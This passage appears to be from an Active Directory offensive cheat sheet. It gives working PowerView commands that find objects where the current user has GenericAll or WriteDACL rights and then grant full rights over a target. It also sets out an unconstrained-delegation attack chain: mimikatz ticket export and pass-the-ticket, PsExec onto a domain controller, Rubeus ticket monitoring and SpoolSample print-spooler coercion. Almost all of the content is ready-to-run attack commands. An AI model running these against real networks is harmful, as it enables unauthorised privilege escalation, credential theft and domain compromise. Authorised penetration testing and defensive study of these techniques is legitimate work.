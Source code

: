 View all user objects access rights (GenericAll, WriteDACL)
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

View all group objects access rights (GenericAll, WriteDACL)
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Change ACL if WriteDACL is set on object
```powershell
Add-DomainObjectAcl -TargetIdentity <target username/group> -PrincipalIdentity <username> -Rights All
```

Get interesting ACL's
```powershell
Invoke-ACLScanner -ResolveGUIDs
```

## Unconstrained delegation

Get unconstrained delegation computers
```powershell
Get-DomainComputer -Unconstrained

-Domain domain.com (optional to enum other domains in forest)
```

View and use forwardable tickets on unconstrained host
```
privilege::debug
sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt <filename>
C:\Tools\SysinternalsSuite\PsExec.exe \\dc01 cmd
whoami
```

Check printer spooler service active on remote host
```
dir \\dc01\pipe\spoolss
ls \\dc01\pipe\spoolss
```

Rubeus monitor for incoming tickets filtered by host (run on Unconstrained delegation host)
```
Rubeus.exe monitor /interval:5 /filteruser:DC01$
```

Force remote host to connect to host
```
SpoolSample.exe DC01 TARGET01
```
